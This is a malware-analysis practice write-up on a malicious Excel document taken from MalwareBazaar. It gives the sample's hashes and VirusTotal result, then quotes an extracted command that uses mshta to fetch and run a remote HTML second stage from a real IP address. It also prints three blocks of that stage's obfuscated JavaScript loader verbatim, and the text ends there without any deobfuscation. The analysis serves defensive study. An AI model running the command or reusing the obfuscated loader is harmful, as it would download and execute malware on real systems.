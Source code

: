 ```yaml
---
layout: page
title: Malware Analysis Practice (Maldoc) #1
permalink: /lemon-mockingbird-north-alanine
---
```


# Analysis of lemon-mockingbird-north-alanine

asparagus-potato-london-march is a sample I downloaded from MalwareBazaar that was uploaded by [@Cryptolaemus1](https://twitter.com/Cryptolaemus1/), a link to the sample is below. The bulk of this analysis is based on techniques I have learned from [@HuskyHacksMK](https://twitter.com/HuskyHacksMK)'s Practical Malware Analysis & Triage course.

Sample source: [https://bazaar.abuse.ch/sample/c49da30a5ef994b4388c65f8fd295e33766011b1b5a2221db9753490408f62c7/](https://bazaar.abuse.ch/sample/c49da30a5ef994b4388c65f8fd295e33766011b1b5a2221db9753490408f62c7/)

---

## Static Analysis xlsx file

### File Hashes
I pulled the below hashes using hashcalc.

- MD5: db00ce44029164d0695bafc91fa67413
- SHA1: a7c0195d74d5be9c44638957c704eb76ef749c17
- SHA256: c49da30a5ef994b4388c65f8fd295e33766011b1b5a2221db9753490408f62c7

### VirusTotal
I was able to find a hit when searching the file hash in VT. There is some good information, interestingly only 8/60 vendors flag the file as mailicious. 

VirusTotal - [https://www.virustotal.com/gui/file/c49da30a5ef994b4388c65f8fd295e33766011b1b5a2221db9753490408f62c7](https://www.virustotal.com/gui/file/c49da30a5ef994b4388c65f8fd295e33766011b1b5a2221db9753490408f62c7)

### Strings
I used strings to pull all strings from the sample. One string really stood out and it looked very useful.

`cmd /c set kiki=mshta http://91.240.118.172/mm/nn/se.html & echo %kiki% | cmdB

From here I went out on a limb and guessed this was a second stage and used any.run to pull a copy the html file safely. The any.run analysis where you can download a copy of he.html is here: [https://app.any.run/tasks/b756c3c0-d524-4c6c-95dc-d472c632a26d/](https://app.any.run/tasks/b756c3c0-d524-4c6c-95dc-d472c632a26d/)

---

## Static Analysis second stage se.html
The first thing I did with the html file was to open it in Notepad++ in the hopes that it wouldn't be a mess of encrypted characters. I was met with an obfuscated script split up into 3 blocks.

Block 1
```	<script>
		l1l=document.documentMode||document.all;
		var f9f76c=true;
		ll1=document.layers;
		lll=window.sidebar;
		f9f76c=(!(l1l&&ll1)&&!(!l1l&&!ll1&&!lll));
		l_ll=location+'';
		l11=navigator.userAgent.toLowerCase();
		function lI1(l1I){return l11.indexOf(l1I)>0?true:false};
		lII=lI1('kht')|lI1('per');
		f9f76c|=lII;
		zLP=location.protocol+'0FD';
		edtsQwJ5y67d8=new Array();
		mX52Su5Km3cOV=new Array();
		mX52Su5Km3cOV[0]='w%36%38%33BC\115\104'   ;
		edtsQwJ5y67d8[0]='<!DOCTYPE html PUBLIC "-//W3C~DTD XHTML 1.0 Transitional~EN"~~\ntp:~w~B.w3.org/TR/x~\n~1/~D~N~Pl1-t~-~/~1~3~5l.dtd"><~W x~~/="~=~?~A~C~E~G~I/19~y~V~l~f~head~gscript>ev~6(une}ape(\'\\166%61%72%20}1}7}37%3D}"}+2}+3B}%}9},8},D}23}4r}9n}4}0Ef}62o}}.4}>68}E}} %}Po}E4e}"}93})}>2C},})}$2}7}3}E6}57}A28i}:},}$}3}r~},}!3}z}2}hB}r2}4|}"}77B}J1y},}0}4}-}57}h}97}.}3fu}E}E}>74}B}F}l}}#q}6},|"}9}g}|151f}]}"1d||}5me|!}J|2|144oc|6}Nent}W}.6F|365}"|"|"}&|?||K}|5}l|O|N||H|=}Tl}l|<|}46|A|57|Y|,|j4|[E|^Ew}A6||U|O}p|}h}0|}.|},|+}|\n3|\'||}}k}5n|W~2}l7{}#}%{}7|x|)|z}w}h}.2}zCs}"}!|{}}$}|!}"0styl}\\|}1}Z}l1spla{A|}Y|,{|m}/},E},}c70r}E|O3{A{#|}(|%}*}"|{}"Fp}2{.{A}x2F{{K{Q{$}T{{I{ |}\'2}w}z|JEew{(A}A} }T|%{7a|/|{G}J}!4{Wg{2|{?}b}/}E}!|\\}|4}{WEn|3}1}"}c{0|?|.}?|9z	}0{\nz\r}0z7zz46{;}Ke|e5g}B{|{|{},}>|6{A|N{m}#A{zz6z|\n{t}8t|Zlzzz;}5}z@{?}K|}4}\'}z|)|~H}]k}s3}u|e|\r}c}-{f{3}az1C{Gn{~}4h{e|,}a|||dz,3|}-|MFcu|8zza|}"Ezc|mtz_ezuz0|;{{|y}<4azc}}Tm{G}]z|z]%5BzS5{}~fz"{!8jzTzV}{9}xzZ1} }w|<z}|z\'zw}R|y{"zk|*|/|K}o}qy|}wzY|z.|+|-{Py={}}j}]z[|,})|yyyy|*zz\\yFByyzx{z0{|N{zt{9|fy}T|C|N{|~#~%yBy#{g}yyy;}yQz7A{{|~yp|}yr|\'))</}}}}}}}	d|Bzt|Ft~D}t}"<tab{- wi~ch=\'10}$\' b~Hderx0\'~g~[x$dxgcol~Hx#x}xx~6ign = \'cxxx#<y|G {*{,ex8\'xAt-family: Vxd~.a, {oi~6xYHelve~2cxXxC~.s-sxif; xIxjizexR12pxxox*x,rxR#Fwwxobackgro}d-x|~Hxx06x2>ThxFswrx< x*x of this pyxFw&w(w\nxcxx\'by <b~gxIxC{+xxwx~ wzaFCCwya~&Guardx\\nyxxI~g/w7w5brww ul~2maxw#ox+w`w-ow/t yw wFwoxxYiw]g}xYJa} }{5xcswuwwayzyw} linkvkeepxebwm|GxxpxOxrw\'aw{7wyz muchv~He.v&w5/wPw6wV<aw:xExGxxxJxx*~-~2~4xRn~4ex{x+ww@wwCx2~	refx~p~@/'   ;
		j7eCosn='fu'   ;
		dhQtYD1xY4Wvl='ecYo6L6'   ;
		i4CE51FAn='LwjfpUopMlQdbeohOiUJ'   ;
		j7eCosn+='nction oisT5kq'+'h7gMSHK(ejd1b4W'+'vdU27U){'   ;
		tsY5j35h1t7p='%69\146%28%7AL\120%2E\151%6Ed\145x%4Ff%28%27%5C%35%35%27%29%3E%30%29%7Be\144%74sQ\167%4A%35y%36%37d%38%5B%30%5D%3D%27x%27%7D%3B%76\141\162%20l%32%3D%77in\144o%77%2Eo\160%65\162a%3F%31%3A%30%3Bf%75%6E%63%74io\156%20c%36%37%66%39\146%28%29%7B%69f%28\146%39f%37%36c%29%7Bdo\143\165%6De%6E\164%2Ew\162i%74\145%28%6C%4F%29%7D%7D%3B%66%75nc\164%69o%6E%20l%33%28%6C%34%29%7Bl%35%3D%2F\172a%2Fg%3Bl%36%3DS\164\162i%6Eg%2Efro\155Ch\141\162C%6F\144%65%28%30%29%3B\154%34%3Dl%34%2Ere\160%6C\141%63\145%28l%35%2Cl%36%29%3B%76\141\162%20%6C%37%3D%6E%65\167%20A\162r%61y%28%29%2Cl%38%3D%5F%31%3D\154%34%2El\145n%67%74%68%2C\154%39%2C%6CI%2C\151%6C%3D%31%36%32%35%36%2C%5F%31%3D%30%2C\111%3D%30%2C%6C\151%3D%27%27%3Bd\157%7B%6C%39%3D%6C%34%2E\143ha%72C\157%64e%41t%28%5F%31%29%3BlI%3D\154%34'   ;
		function h7gMSHKoisT5kq(btU3p36){i4CE51FAn+=btU3p36};
		edtsQwJ5y67d8[0]+='~Bw.pw.vvF.x*mxx~Ixcx_x~.kx#wTw8~4wgxDw<xHvcxKxMxOxQxSxUxWxYx[x]wkx`xbxdxfsxhxjxlxnxpvh~0xtxvxxxzwmx}xvBwD0wwww\nwwv?w?x/0x1x">vM.Pw.WwJv%vUwOvcwQw7yxawQ~du%v,/xxe>");dl=xzs|8|G.{6yxs;oe=xzovNo}~-?1:u	xV=(u4xu7uOu6tMwne||uRx.~6l)&&!u>;wsu3xuS.wsz|{-uSById;wsu@vxvN~0xwr?~[uxuxLlxk;tN=~5vx5w^~H.uxkrAwsu7toLuCxCvza}u/xstt.uvexOf}}t}}yu>=0u}ru:tt{utxV;t58u3a;}rvsgx\';|nw0~_ }m(){vFturx7u~e}uruvuC~G}rw\nt?x9tKt8OFuuuBvNx,xev8nvOw.|Bx+t zt"t$}fxOeyu!=-1t/t1t3v=i7vHt5u`!ztct}tza~6tyxvy|<swgxxlI1lx#t>w(px*nvHu	sqy7tC;s"t:S~[vg.fw\nmChwJCuV(13,xs9s8xu/yr(it-;i<481sD++tNs"7+=s\'tWI~Xu2x\n"+"!--sXsNsYs\\sX~f";slsV/sb*s^s#sYsksYsi;~X11~ns}sbyu-+sss6)s|Is~2rza"xsXs}1(3r\'s\ry~sby|sdrssvsr~.v/{-xwL{4u9:v;}x?vPu,slsOx\n/r$wQrsYw)nu-sesgu2r1+sTsr6rsIs}Isvsb{4~.r0r2r=r(r?r.r0r7susWsYr@x7veu?\'t	~0bxO~1xQw%dxnx#qw}zasdzxcrsgItE}tH~4vstItM{sst{lxZt]{7}bvGv$Begv\',\'{vvr|r~r[qrys?ezdqzaqfvqyur11r=}wru~-y}~Wqw}qxdyqaqwqgqwLvqs?vVqu*{-qsq\'nputqpqsst=r2r\nu/sxtv!(q=1tNxexk~\':q=qrt{oq(|,qUqWs87qYq[qVq\\qZq]u/wU}zak;qKxF2qNsqPqqRrw38,}Fqq7s95qq1qu,9qz,{qy|,qavFaqdqf 3qiqrsqlrvq0,qopqp|,q|pq{q{q~ppza;qbpqet 4pqkqqnqpqrqrp4qxpq|pqvppqdxxLwZtp"p\np$p\r,pp<p;p>p=p@)sSrp8qmqr7l,sfpIssqxr4pJr2,r<pRrfpPstu/~XruNugu[ujEulxsunTyNxM}r7I[2])[0]q}pJr[7pmtE~H(tsCt<piu8|Fgw$tsKtNmq?qj[t]srqu2uZu7p^p`|Gpbypdgpf|8(pio\npww0aLq?oozazbos?(jsCj<oL;jo{o\'xsCxsF;xo1xm(m&Mw^hvOuC(2,xyv{pYrnpYl[jpqxpsr[m>oV4pm}oZsSsrnu/sfqAr1~XtMsestoaxktTwqewt}rqo^qzaxxpBrhtGtj sfo^{sr2op\\u7wqw*w}ssou5u[vvw}xOq?r2o$ohpTo"snw$pPsurw%{-sAu^oIrnuPx}}zaxp_z~x}rMqsTsn\rsg[s\\xOoo;!(ps~4f&rtN~[ynsTu\\n7|Fds1xOdorfvOu|GNuV.vF{5wenFlnHs}pIn,Iyv}tiqFetNo[ntvqGnnXufnu7n#w^qoon\'n*o_rfnoMs\\sgn3t%n5n7sn:qIn=rn?nXnB}znUnHnZnKvFnMnOnQ{6x<mqGnnn[pBn^h(n`{'   ;
		j7eCosn+='eva'   ;
		xH52oqTJ='DeUOHNVQOEJTWexYfVZQOcTKOwOt'   ;
		j7eCosn+='l(unes'   ;
		xB7jh5qz='m3cS2JN62'   ;
		j7eCosn+='cape(ejd1b4WvdU27U))}'   ;
		xB7jh5qz+='uZ0FLiBTY'   ;
		eval(j7eCosn);
		xXeharPxFbO='LDhOjIdZoHHnZVMRvMvauGyZODOYiLvOPjv'   ;
		j7eCosn=''   ;
		tsY5j35h1t7p+='%2E\143%68%61%72\103od%65%41t%28%2B%2B%5F%31%29%3B%6C%37%5B\111%2B%2B%5D%3D\154I%2Bil%2D%28%6C%39%3C%3C%37%29%7D\167h%69%6C\145%28%5F%31%2B%2B%3C\154%38%29%3Bv\141\162%20\154%31%3D%6Eew%20\101\162%72a%79%28%29%2C\154%30%3D\156%65\167%20A%72\162%61y%28%29%2C%49\154%3D%31%32%38%3B%64\157%7Bl%30%5B%49%6C%5D%3DSt%72i%6E\147%2E\146rom%43har%43o\144e%28\111\154%29%7D\167\150il\145%28%2D%2D%49l%29%3B%49%6C%3D%31%32%38%3Bl%31%5B%30%5D%3D%6C\151%3D%6C%30%5Bl%37%5B%30%5D%5D%3B%6C\154%3D%6C%37%5B%30%5D%3B%5Fl%3D%31%3Bva%72%20\154%5F%3D%6C%37%2E%6Ce%6Egth%2D%31%3Bw\150%69le%28%5F\154%3Cl%5F%29%7Bswitc%68%28%6C%37%5B%5Fl%5D%3CI\154%3F%31%3A%30%29%7B%63a%73\145%20%30%20%3A%6C%30%5BI\154%5D%3Dl%30%5B\154l%5D%2BStr\151\156\147%28l%30%5B%6C%6C%5D%29%2E%73%75%62s\164r%28%30%2C%31%29%3B\154%31%5B%5F'   ;
	</script>```
Block 2
```	<script>
		eval(unescape('f\165n%63%74\151\157n%20yI%36Q%51%36%20%20%20%20%28\164%33%50%35FFQ%56%29%7B\150%76%43E\125%35Z\105\115M%4B\102%32%3Dt%33%50%35FF\121%56%7D%3B'));
		qeb6lGDCHLg341R='l'   ;
		xB7jh5qz+='q3rKC46b'   ;
		mX52Su5Km3cOV[0]+='%72%30o%4B%31%31%35%67B'   ;
		edtsQwJ5y67d8[0]+='o[tWtFrjx7o`rouAuw~GmtwZlu0nzaxuE|Fm&sgm)nix|r~1u?nm\'tXtfu\\{-rp{m6m/mrioxn,qAo|wJ t"~[aFri1C|G|Gt-m@owtIrqmDsmH~-mKtG}bmOp{0mRmrlpZe,p,cnn?n4m"tZuyvwJtNv%vtyXdjnS|GwFostoMppqmh}x`qLtOcvHon"pxR~.wstMvTl	nTvcmHwIlF~-guS(mhsDt%p=t-mqm	xnNxtpmtr|q\n(wf,n`tWo;l=qI{mr~/xtl(v$l*ll-s-ivtmoul0lrl4mnDml+lCllrlGw)m\ntnOmsl7l9vFl;l,v%}v3Sixs+pBoZm(xuunam`oxr	o(tNx o?w$nP~.xtLu/dp8Dnllujojott%o)l2tNo=s)}zbs-s/s1s3s5lpoAfx,pyr*25+|Nn\\lxF{kks-ks@kd*os0rza\'tDosPou=k+k-=ol/kzalNkk.k*k0tWtPtRx7k1lpzy}w!xtYvN}dExb|GLw&xt\\ty\'wvGveq\rtNmlkErYkHxkK{*|Fx}x,q pRrm,tpBk o;{+kAw"lu\\kYkItk\\kMxkOkQtu}kU{knkFkZkJkLk^s@\'kaq\rkcqkesl.khkjk@olw"kWu\\txv!k~tkvtqkxkTyu{jw^jhj}~4jqzassn[ljtIq@roqHsCutwwt\ntrt\rttu[ttr^rtxkodo;jmnu{tNj,2k2(jv!s/mj,3jFjm,~-jCrq=4jFk|sgu`qHtyjTjRq>1jFutpxt#t%np{vwJit+l3jLjFmq>ku`}jbtrjeixFxjjoHj,xk9xck;vrq}ry{}	w5s>mmBrmron>oIqsuknon\'|Gunupk`sfq<il"ml%vFmoxbmpYqIn]w^n_t]rliisziy~}vlwIue"VBSi.t~f\r\n i=i>WkD.Rel^xtTo piIi;i>i?iAuUxbiG -4xiJiTiVi;	i=i;COx8~ $c3x}{LOkoNijoBoik}ihinimikipirs)itikivioiqk1ki{ilinixk1hi}h}ghhi}}\'~\nhiwh~>hi~irvK9~(2iU.st8h} /mm/nnyyv%pzbk()\'nPvm}\'hh	qzax:q"i;A~x9~;-v;t"~1ibcsu\'(h6hhJirNehLhiii|h\rirwhP}-ObjhWechWhWwgNh`hRhhirxchW.WhdiuhTk1twh1nRx<}hWh8h.;h;\nCMi`~;ic4xbChWvhmhShghpnghfhk1t).DghhuCgho}nlgg	ishegiroh0m\rnShug ghwh:i;GNh~I`E`XibJI|g0g2X~;+ia~;g,Ah~$g6uMicqxgza,ic3iSJovh9u/hzJHWET5JQ35UgYW5Hi`h= g=h|gd i^ggGgAg=g-i;WSi`s1s@87) &ghhgtrgg"sxggkiCxbvx	.~>iu.gggs(8g}gyfx4gwg="x`~}i;oh SfHRTJKTSf!ARgax9ClhZjh^ongp)i;REgSEfgYf gTgSAWgrg{(f49gwff?fBfDgzs@5k&fHffAfCgxfI(fGfQfOyv+fNfFfPfEs@fTf\\(}myvfUf?xqIfXfd|?fMfh5fjs@frzaf0qIfcfn08fpfdfvfmrri;fff f"f$Kf&HiB} f3f5f7Qf9Wf;f=g=gSgUgWgYg[g]Qg_HxYfAfwiZghx,xkiLi>i+y|w5~\na:wzvtitIs"o~#A~;e+ie-~4~5|8~nipnjwe4n7e,w^~_~nu:rkCx~nxxy~;wx5~\neJ0eLwQe(e*eAe6eC~4eT}za}w6wnyu!e_eT~|> '   ;
		h7gMSHKoisT5kq('p20qO4m3u43');
		tsY5j35h1t7p+='%6C%5D%3Dl%30%5B%49l%5D%3Bif%28l%32%29%7B%6C%69%2B%3D%6C%30%5B\111\154%5D%7D%3B%62%72\145\141\153%3Bdefa%75\154t%3Al%31%5B%5F%6C%5D%3D\154%30%5Bl%37%5B%5F%6C%5D%5D%3B\151f%28%6C%32%29%7Bli%2B%3Dl%30%5B%6C%37%5B%5F%6C%5D%5D%7D%3Bl%30%5BI\154%5D%3D\154%30%5Bl%6C%5D%2B\123%74\162i%6Eg%28l%30%5B\154%37%5B%5Fl%5D%5D%29%2E\163\165%62\163%74r%28%30%2C%31%29%3B\142%72\145ak%7D%3BIl%2B%2B%3Bll%3D\154%37%5B%5F\154%5D%3B%5Fl%2B%2B%7D%3B\151f%28%21l%32%29%7Bre%74urn%28l%31%2E\152o%69%6E%28%27%27%29%29%7De\154s\145%7B\162e\164u%72n%20%6Ci%7D%7D%3B\166ar%20\154%4F%3D%27%27%3B%66o%72%28%69\151%3D%30%3Bi\151%3C\145%64tsQwJ%35\171%36%37d%38%2El\145n\147%74h%3B%69i%2B%2B%29%7B%6C%4F%2B%3D\154%33%28%65d\164%73%51wJ%35\171%36%37\144%38%5B%69%69%5D%29%7D%3Bc%36%37f%39%66%28%29%3B'   ;
	</script>```

Block 3
```		<!--qYjXd1OND0RNWf38O8O2-->
	<script>
		xXeharPxFbO      ='xOCSHOGNQcIIrMZITOaeWwlCcXOtEFZPOZdMOUjitamfrYGPd'   ;
		oisT5kqh7gMSHK  (tsY5j35h1t7p);
		yI6QQ6   (tsY5j35h1t7p);
		h7gMSHKoisT5kq    (xH52oqTJ);
		iTyx7jacEB7sp804='s1m44XF7ZiYSVix800CGQF7mIXd'   ;
		eval(unescape('%71%79%36%28%22%63%37%39%38%66%62%36%39%66%22%29%3B'));
		qeb6lGDCHLg341R+='GqMoOOYlEKDQjuvOcotoNcoOPbqmOkFMyHXydOOtgYLMpsFxOOQdBddbblnXIPJCOuVLqUOTaxdOxDrmfFjOuOwOYfrwOewuwyiOJMjeL'   ;
		xB7jh5qz+='wf46Om'   ;
	</script>```